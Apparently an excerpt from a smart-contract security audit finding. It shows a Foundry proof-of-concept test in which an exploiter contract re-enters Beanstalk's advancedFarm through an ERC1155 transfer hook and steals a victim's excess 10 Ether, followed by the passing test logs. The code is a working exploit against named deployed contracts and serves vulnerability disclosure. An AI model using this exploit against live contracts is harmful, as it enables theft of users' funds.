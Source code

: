 ```solidity
        Fertilizer fert = new Fertilizer();
        vm.etch(FERTILIZER, address(fert).code);

        assertGe(IERC1155(FERTILIZER).balanceOf(VICTIM, TOKEN_ID), 1, "Victim does not have token");

        exploiter = new FertilizerRecipient();
        vm.deal(address(exploiter), 1 wei);

        vm.label(VICTIM, "VICTIM");
        vm.deal(VICTIM, 10 ether);

        vm.label(BEANSTALK, "Beanstalk Diamond");
        vm.label(FERTILIZER, "Fertilizer");
        vm.label(address(exploiter), "Exploiter");
    }

    function test_attack() public {
        emit log_named_uint("VICTIM balance before: ", VICTIM.balance);
        emit log_named_uint("BEANSTALK balance before: ", BEANSTALK.balance);
        emit log_named_uint("Exploiter balance before: ", address(exploiter).balance);

        vm.startPrank(VICTIM);
        // approve Beanstalk to transfer Fertilizer
        IERC1155(FERTILIZER).setApprovalForAll(BEANSTALK, true);

        // encode call to `TokenSupportFacet::transferERC1155`
        bytes4 selector = 0x0a7e880c;
        assertEq(IBeanstalk(BEANSTALK).facetAddress(selector), address(0x5e15667Bf3EEeE15889F7A2D1BB423490afCb527), "Incorrect facet address/invalid function");

        AdvancedFarmCall[] memory data = new AdvancedFarmCall[](1);
        data[0] = AdvancedFarmCall(abi.encodeWithSelector(selector, address(FERTILIZER), address(exploiter), TOKEN_ID, 1), abi.encodePacked(bytes1(0x00)));
        IBeanstalk(BEANSTALK).advancedFarm{value: 10 ether}(data);
        vm.stopPrank();

        emit log_named_uint("VICTIM balance after: ", VICTIM.balance);
        emit log_named_uint("BEANSTALK balance after: ", BEANSTALK.balance);
        emit log_named_uint("Exploiter balance after: ", address(exploiter).balance);
    }
}
```

As can be seen in the output below, the exploiter is able to steal the excess 10 Ether sent by the victim:

```
Running 1 test for test/FarmFacetPoC.t.sol:FarmFacetPoC
[PASS] test_attack() (gas: 183060)
Logs:
  VICTIM balance before: : 10000000000000000000
  BEANSTALK balance before: : 0
  Exploiter balance before: : 1
  data.length: 1
  entered __doSafeTransferAcceptanceCheck
  to is contract, calling hook
  entered exploiter onERC1155Received
  exploiting farm facet farm call
  data.length: 0
  entered exploiter fallback
  Beanstalk balance:  0
  Exploiter balance:  10000000000000000001
  finished exploiting farm facet farm call
```